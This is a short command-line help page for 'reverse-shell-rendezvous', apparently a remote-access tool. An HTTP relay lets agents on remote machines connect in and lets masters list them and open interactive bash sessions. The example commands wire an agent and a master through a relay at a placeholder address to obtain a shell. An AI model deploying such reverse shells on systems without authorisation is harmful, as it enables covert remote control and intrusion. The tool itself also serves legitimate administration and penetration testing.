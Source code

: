 ## reverse-shell-rendezvous

An http server listening for agents and masters

### Synopsis

The rendezvous is an http server listening for agents and masters.	It can run behind a reverse-proxy and that reverse-proxy could to SSL offloading.

```
reverse-shell-rendezvous [flags]
```

### Examples

```
Start the rendezvous and the agent:
# On the rendezvous (1.2.3.4)
$ rendezvous -P 7777

# On the agent (3.4.5.6)
$ agent websocket -U http://1.2.3.4:7777

Open a shell and send some commands
# List the agents
$ ./master list-agents -U http://1.2.3.4:7777
List of agents:
* 3.4.5.6:65000

# Create a session
$ master create -U http://1.2.3.4:7777 3.4.5.6:65000
Attaching to admiring_meitn
Connected to admiring_meitn
bash-3.2$

```

### Options

```
  -h, --help          help for reverse-shell-rendezvous
      --port int32    remote port to connect to (default 8080)
  -v, --verbose int   Be verbose on log output
```

